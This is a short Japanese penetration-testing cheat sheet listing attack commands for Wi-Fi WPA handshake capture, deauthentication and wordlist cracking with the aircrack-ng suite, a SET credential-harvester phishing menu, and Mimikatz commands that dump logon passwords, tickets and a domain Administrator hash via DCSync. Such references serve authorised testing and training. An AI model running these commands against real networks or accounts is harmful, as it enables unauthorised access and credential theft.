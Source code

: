 ## ワイヤレステスト

### Wi-Fi（WPA/WPA2）

```bash
# モニターモード有効化
airmon-ng start wlan0

# APスキャン
airodump-ng wlan0mon

# ハンドシェイクキャプチャ
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth攻撃（handshake強制）
aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF wlan0mon

# クラッキング
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
```

## ソーシャルエンジニアリング

### フィッシング（教育目的）

**Gophish:**
- フィッシングキャンペーン管理
- テンプレート作成
- トラッキングとレポート

**SET (Social Engineering Toolkit):**

```bash
setoolkit

# メニュー
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
```

## ポストエクスプロイト

### 認証情報ダンプ

**Mimikatz:**

```
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::tickets
mimikatz # lsadump::dcsync /domain:domain.local /user:Administrator
```
